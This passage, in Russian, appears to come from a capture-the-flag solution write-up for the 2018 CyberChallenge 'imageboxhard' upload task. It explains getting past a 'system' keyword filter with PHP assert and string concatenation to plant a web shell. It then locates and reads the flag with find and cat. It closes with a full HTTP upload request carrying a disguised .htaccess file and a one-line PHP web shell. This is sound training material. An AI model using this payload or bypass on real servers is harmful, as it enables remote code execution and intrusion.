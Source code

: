 \begin{enumerate}
    Далее также возможна некоторая вариативность в решении, например:
    
    Можно изучить документацию к языку программирования PHP на предмет наличия близких по функциональности конструкций и обнаружить функцию “assert”, которая не блокируется сервисом и при этом имеет функционал, сходный с функцией “eval”, которая динамически интерпретирует код, переданный ей в качестве аргумента. Далее, можно закодировать вызов system с помощью конкатенации двух строк, таким образом, обойдя фильтр, который ищет точное вхождение подстроки “system” в загружаемом файле.
    
    Можно сформировать веб-шелл динамически, получив заблокированное слово “system” путем конкатенации двух строк, например, “sys” . “tem”. Далее, воспользовавшись встроенными функциями PHP для работы с файлами, сохранить веб-шелл в файл с некоторым известным именем и следующим запросом обратиться к нему.

    После получения веб-шелла можно воспользоваться стандартной unix-командой find для поиска флага, например: “find / -name flag.txt”. Изучив вывод команды, легко понять, что флаг находится по пути “/var/flag.txt”, считать который можно, опять же, воспользовавшись веб-шеллом, с помощью команды “cat /var/flag.txt”.

    Также приведем вектор атаки в виде HTTP-запроса для варианта решения, использующий конфигурационный файл .htaccess:\\
    POST / HTTP/1.1\\
    Host: imageboxhard.2018.cyberchallenge.ru\\
    Content-Length: 309\\
    Content-Type: multipart/form-data; boundary=----boundary\\
    Connection: close\\
    \\
    ------boundary\\
    Content-Disposition: form-data; name="file"; filename=".htacHTACCESScess"\\
    Content-Type: image/png\\
    \\
    php\_flag engine 1\\
    <Files .htaccess>\\
    SetHandler application/x-httpd-php\\
    Require all granted\\
    Order allow,deny\\
    Allow from all\\
    </Files>\\
    \# <?php assert(\$\_GET['cmd']); ?>\\
    ------boundary--\\
\end{enumerate}


